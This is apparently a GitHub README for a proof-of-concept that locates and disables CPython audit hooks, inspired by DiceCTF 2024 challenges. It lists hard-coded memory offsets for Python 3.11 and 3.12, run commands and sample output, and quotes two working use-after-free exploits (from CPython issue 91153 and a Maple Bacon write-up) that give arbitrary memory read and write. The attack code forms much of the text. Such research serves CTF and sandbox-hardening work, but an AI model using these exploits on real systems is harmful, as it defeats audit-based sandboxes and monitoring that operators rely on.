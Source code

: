# python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.1 (main, Feb  3 2024, 17:23:12) [GCC 13.2.1 20230801] on linux
Python 3.11.7 (main, Jan 29 2024, 16:03:57) [GCC 13.2.1 20230801] on linux
```

## Offsets
```python
# Python audit hook -- under interpreter state
python_offset_311 = 0xe00
python_offset_312 = 0x41448

# native audit hook -- under runtime state
native_offset_311 = -0xe388
native_offset_312 = -0x11df0
```

## audit hook in Python
### Concept
According to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.

### How to use
```bash
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
PyInterpreterState_addr=0x5c50c812fbe8
PyRuntimeState_addr=0x5c50c811d180
PyInterpreterState.audit_hooks_ptr_addr=0x5c50c8170fb0
PyRuntimeState.audit_hooks_ptr_addr=0x5c50c811dd78

audit_hook_ptr_offset=0x41448
1
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## audit hook in C
### Concept
According to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `audit_hooks` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks linkList to `NULL`.

### How to use
```bash
./build.sh
./POC-native-hook.py
./POC-native-hook2.py
```
### Output
```bash
> ./POC-native.py
PyInterpreterState_addr=0x5c7801978be8
PyRuntimeState_addr=0x5c7801966180
PyInterpreterState.audit_hooks_ptr_addr=0x5c78019b9fb0
PyRuntimeState.audit_hooks_ptr_addr=0x5c7801966d78

audit_hook_ptr_offset=-0x11df0
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2-native.py
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## Use issues/91153 to do arbitrary read/write
### Concept
By using <https://github.com/python/cpython/issues/91153>, we can overwrite audit hook without `ctypes`.
### Exploits
```python
# following arbitery reading/writing exploit code from https://github.com/python/cpython/issues/91153#issuecomment-1132117665
# by chilaxan
to_write_after_free = bytearray(bytearray.__basicsize__)
class sneaky:
    def __index__(self):
        global to_corrupt_ob_exports, to_uaf
        del to_write_after_free[:]
        to_corrupt_ob_exports = bytearray(bytearray.__basicsize__)
        to_write_after_free.__init__(bytearray.__basicsize__)
        to_uaf = memoryview(to_corrupt_ob_exports)
        return -tuple.__itemsize__

to_write_after_free[sneaky()] = 0
to_corrupt_ob_exports.clear()
occupy_uaf = bytearray()

view_backing = to_uaf.cast('P')
view = occupy_uaf

view_backing[2] = (2 ** (tuple.__itemsize__ * 8) - 1) // 2
memory = memoryview(view)
# end of arbitery writing exploit code

memory[<ADDR>] = <HEX>
```

```python
# following arbitery reading/writing exploit code from https://maplebacon.org/2024/02/dicectf2024-irs/
# wrote and improved by Maple Bacon CTF Team
class UAF:
    def __index__(self):
        global memory
        uaf.clear()
        memory = bytearray()
        uaf.extend([0] * 56)
        return 1

uaf = bytearray(56)
uaf[23] = UAF()
# end of arbitery writing exploit code

memory[<ADDR>] = <HEX>
```
### How to use
```bash
./build.sh
./POC2-issue91153.py
./POC2-issue91153-native.py
```
### Output
```bash
> ./POC2-issue91153.py
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2-issue91153-native.py
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [ ] Find a way to get the `audit_hook` address without using `ctypes`
